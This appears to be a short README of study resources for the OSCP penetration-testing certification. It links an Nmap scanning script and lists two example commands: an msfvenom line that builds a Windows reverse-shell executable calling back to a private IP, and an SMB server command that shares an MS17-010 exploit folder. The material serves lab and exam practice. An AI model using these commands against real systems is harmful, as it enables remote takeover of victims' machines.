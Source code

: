 # Offensive Security Certified Professional
## OSCP Tools and Resources for Your Journey


##### Nmap Automator. Save time on port/vuln scans:
https://github.com/21y4d/nmapAutomator




Category | Command Examples
------------ | -------------
MSFVENOM | msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.221 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe
SMB | python3 smbserver.py lab "~/OSCP/EXPLOITS/MS17-010/CLISHARE"
